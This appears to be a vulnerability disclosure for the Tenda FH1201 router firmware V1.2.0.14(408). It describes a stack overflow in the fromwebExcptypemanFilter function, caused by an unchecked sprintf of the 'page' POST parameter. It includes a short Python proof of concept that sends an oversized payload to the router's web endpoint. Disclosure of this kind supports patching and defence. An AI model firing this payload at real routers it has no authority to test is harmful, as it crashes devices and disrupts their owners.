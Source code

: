 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromwebExcptypemanFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v8, "firewall_murlexcplist.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![image-20240409100908565](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409100908565.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/webExcptypemanFilter"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)